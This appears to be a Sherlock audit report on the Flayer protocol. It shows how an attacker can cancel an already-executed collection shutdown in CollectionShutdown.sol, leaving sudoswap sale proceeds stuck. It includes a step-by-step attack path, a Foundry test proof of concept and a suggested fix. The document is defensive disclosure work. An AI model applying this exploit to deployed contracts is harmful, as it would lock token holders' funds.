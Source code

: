 Wonderful Rouge Hamster

High

# Attacker can cancel an executed shutdown

### Summary

An attacker can cancel an executed shutdown causing proceeds from the sudoswap sales to be stuck in the CollectionShutdown contract.

### Root Cause

In [CollectionShutdown.sol:209](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L209) `canExecute` can be set to true even after the shutdown has been executed by anybody who hasn't voted previously. 

With `canExecute` set to `true` you can execute [cancel()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L403) to delete the `collectionParams`. With that struct deleted, [claim()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L292) will revert because `sweeperPool == address(0)`.

### Internal pre-conditions

none

### External pre-conditions

none

### Attack Path

1. After a shutdown has started, the attacker mints collection tokens such that `totalSupply > 4e18 * 10 ** denomination`
2. Attacker votes for the shutdown to reach quorum
3. Attacker executes the shutdown
4. Attacker reclaims their votes (allowing them to vote again)
5. Attacker votes again (sets `canExecute = true`)
6. Attacker creates a new collection token for the collection
7. Attacker calls `cancel()` causing `collectionParams` to be deleted for the collection which resets everything.


### Impact

All the profit from the sale of the locked NFTs through the sudoswap pool will be stuck in the CollectionShutdown contract. Holders of the collection token won't be able to claim the proceeds.

### PoC

```diff
diff --git a/flayer/test/utils/CollectionShutdown.t.sol b/flayer/test/utils/CollectionShutdown.t.sol
index d4ed299..e1f0ec4 100644
--- a/flayer/test/utils/CollectionShutdown.t.sol
+++ b/flayer/test/utils/CollectionShutdown.t.sol
@@ -49,6 +49,86 @@ contract CollectionShutdownTest is Deployers, FlayerTest {
         ILSSVMPairFactoryLike(PAIR_FACTORY).setBondingCurveAllowed(ICurve(RANGE_CURVE), true);
     }
+
+    function test_cancel_attack() public {
+        locker.createCollection(address(erc721c), "Test Test", "T", 0);
+        locker.setInitialized(address(erc721c), true);
+        erc721c.mint(address(this), 1);
+        erc721c.approve(address(locker), 1);
+        uint[] memory tokenIds = new uint[](1);
+        tokenIds[0] = 1;
+        locker.deposit(address(erc721c), tokenIds);
+
+        ICollectionToken token = locker.collectionToken(address(erc721c));
+        token.approve(address(collectionShutdown), type(uint).max);
+
+        vm.startPrank(address(locker));
+        token.mint(address(1), 3e18);
+        vm.stopPrank();
+
+        vm.startPrank(address(1));
+        token.approve(address(collectionShutdown), type(uint).max);
+        collectionShutdown.start(address(erc721c));
+        vm.stopPrank();
+
+        address attacker = vm.addr(229);
+        vm.startPrank(address(locker));
+        token.mint(attacker, 1.5e18);
+        vm.stopPrank();
+
+        
+        // after the attacker votes, the shutdown will be executable
+        vm.startPrank(attacker);
+        token.approve(address(collectionShutdown), type(uint).max);
+        collectionShutdown.vote(address(erc721c));
+
+        vm.stopPrank();
+        collectionShutdown.execute(address(erc721c), tokenIds);
+        ICollectionShutdown.CollectionShutdownParams memory params = collectionShutdown.collectionParams(address(erc721c));
+        assertEq(params.sweeperPool, 0xfE9276978BCD98E4B0703b01ff9c86E4B402B097);
+        vm.startPrank(attacker);
+
+        // after the shutdown has been executed, the attacker will reclaim their votes so that they
+        // can vote again
+        collectionShutdown.reclaimVote(address(erc721c));
+        collectionShutdown.vote(address(erc721c));
+        
+        // because the previous collection token was sunset, the call to the locker contract
+        // in cancel fails. So we need to create a new token for that collection
+        locker.createCollection(address(erc721c), "Test Test", "T", 0);
+        
+        // By voting again `canExecute` is true which allows us to call `cancel()`
+        collectionShutdown.cancel(address(erc721c));
+
+        params = collectionShutdown.collectionParams(address(erc721c));
+        // sweeper pool is 0 address meaning all calls to claim will fail.
+        // this effectivelly locks up all the proceeds from the sudoswap sales
+        assertEq(params.sweeperPool, address(0));
+        vm.expectRevert();
+        collectionShutdown.claim(address(erc721c), payable(attacker));
+
+        vm.stopPrank();
+    }
+
     function test_CanGetContractVariables() public view {
         // Confirm our contract addresses
         assertEq(address(collectionShutdown.pairFactory()), address(PAIR_FACTORY));
```

### Mitigation

Use new variable `isExecuted` to keep track whether a shutdown has been executed or not.